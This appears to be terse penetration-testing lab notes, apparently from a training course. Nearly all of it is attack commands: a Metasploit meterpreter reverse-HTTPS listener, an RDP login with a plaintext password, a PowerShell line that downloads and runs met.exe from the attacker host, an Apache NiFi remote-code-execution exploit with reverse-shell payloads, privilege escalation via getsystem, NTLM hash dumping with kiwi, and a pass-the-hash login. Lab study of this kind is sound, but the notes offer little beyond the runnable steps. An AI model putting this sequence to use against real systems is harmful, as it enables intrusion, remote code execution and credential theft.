```
use exploit/multi/handler
set PAYLOAD windows/meterpreter_reverse_https
set LHOST 192.168.45.181
set LPORT 443
set AutoRunScript post/windows/manage/migrate 
set ExitOnSession false
run -z -j
```

run the script
```
sudo msfconsole -r listener.rc
```

connect to target
```
sudo xfreerdp /v:192.168.225.202 /u:justin /p:SuperS3cure1337#
iwr -uri http://192.168.45.181/met.exe -Outfile met.exe
.\met.exe
```

can use prebuilt resource scripts
```
ls -l /usr/share/metasploit-framework/scripts/resource
sudo msfconsole -r /usr/share/metasploit-framework/scripts/resource/portscan.rc
set RHOSTS 192.168.225.202
```
### capstone
```
192.168.225.225 192.168.225.226
db_nmap -A 192.168.225.225
db_nmap -A 192.168.225.226
hosts
services -p 8080
search NiFi
use exploit/multi/http/apache_nifi_processor_rce
```

select windows over unix by doing
```
show targets
set target 1
```

get powershell shell
```
set payload payload/cmd/windows/powershell/x64/powershell_reverse_tcp
```

get meterpreter shell
```
set payload payload/cmd/windows/powershell/x64/meterpreter/reverse_tcp
```

```
getsystem
```

get some NTLM hashes
```
load kiwi
creds_msv

impacket-wmiexec -hashes 00000000000000000000000000000000:445414c16b5689513d4ad8234391aacf itwk04admin@192.168.225.226
```

